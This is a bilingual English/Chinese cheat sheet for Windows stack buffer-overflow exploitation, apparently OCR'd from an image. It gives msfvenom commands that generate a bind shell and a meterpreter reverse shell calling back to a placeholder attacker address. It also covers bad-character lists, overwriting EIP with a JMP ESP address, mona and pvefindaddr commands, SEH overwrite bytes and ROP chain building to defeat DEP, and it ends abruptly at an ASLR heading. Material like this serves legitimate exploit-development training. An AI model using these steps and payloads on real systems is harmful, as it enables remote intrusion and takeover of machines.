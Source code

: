 msfvenom -p windows/shell_bind_tcp -a x86 --platform win -b "\x00" -f c
msfvenom -p windows/meterpreter/reverse_tcp LHOST=X.X.X.X LPORT=443 -a x86 --platform win -e x86/shikata_ga_nai -b "\x00" -f c

COMMONLY USED BAD CHARACTERS:
\x00\x0a\x0d\x20                              For http request
\x00\x0a\x0d\x20\x1a\x2c\x2e\3a\x5c           Ending with (0\n\r_)

# 常用命令:
pattern create
pattern offset (EIP Address)
pattern offset (ESP Address)
add garbage upto EIP value and add (JMP ESP address) in EIP . (ESP = shellcode )

!pvefindaddr pattern_create 5000
!pvefindaddr suggest
!pvefindaddr modules
!pvefindaddr nosafeseh

!mona config -set workingfolder C:\Mona\%p
!mona config -get workingfolder
!mona mod
!mona bytearray -b "\x00\x0a"
!mona pc 5000
!mona po EIP
!mona suggest
SEH – 结构化异常处理

注：SEH(“Structured Exception Handling”)，即结构化异常处理，是 windows 操作系统提供给程序设计者的强有力的处理程序错误或异常的武器。

# https://en.wikipedia.org/wiki/Microsoft-specific_exception_handling_mechanisms#SEH
# http://baike.baidu.com/view/243131.htm
!mona suggest
!mona nosafeseh
nseh="\xeb\x06\x90\x90" (next seh chain)
iseh= !pvefindaddr p1 -n -o -i (POP POP RETRUN or POPr32,POPr32,RETN)
ROP (DEP)

注：ROP(“Return-Oriented Programming”)是计算机安全漏洞利用技术，该技术允许攻击者在安全防御的情况下执行代码，如不可执行的内存和代码签名。

DEP(“Data Execution Prevention”)是一套软硬件技术，在内存上严格将代码和数据进行区分，防止数据当做代码执行。

# https://en.wikipedia.org/wiki/Return-oriented_programming
# https://zh.wikipedia.org/wiki/%E8%BF%94%E5%9B%9E%E5%AF%BC%E5%90%91%E7%BC%96%E7%A8%8B
# https://en.wikipedia.org/wiki/Data_Execution_Prevention
# http://baike.baidu.com/item/DEP/7694630
!mona modules
!mona ropfunc -m *.dll -cpb "\x00\x09\x0a"
!mona rop -m *.dll -cpb "\x00\x09\x0a" (auto suggest)
ASLR – 地址空间格局随机化
